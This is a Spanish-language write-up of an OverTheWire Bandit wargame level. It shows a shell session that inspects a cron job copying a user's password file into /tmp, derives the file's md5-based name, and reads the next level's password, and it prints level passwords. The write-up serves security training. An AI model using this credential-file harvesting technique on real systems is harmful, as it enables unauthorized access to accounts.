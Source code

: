 # Level 22 - 23

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.

## Datos de acceso al nivel
Contraseña para el nivel 22: WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

## Solución
---
bandit22@bandit:~$ ls -la
total 20
drwxr-xr-x  2 root root 4096 Feb 21 22:02 .
drwxr-xr-x 70 root root 4096 Feb 21 22:04 ..
-rw-r--r--  1 root root  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root root 3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root root  807 Jan  6  2022 .profile
bandit22@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ whoami
bandit22
bandit22@bandit:~$ myname=bandit23
bandit22@bandit:~$ echo $(echo I am user $myname | md5sum | cut -d ' ' -f 1)
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

---
## Notas adicionales
whoami: 

## Referencias


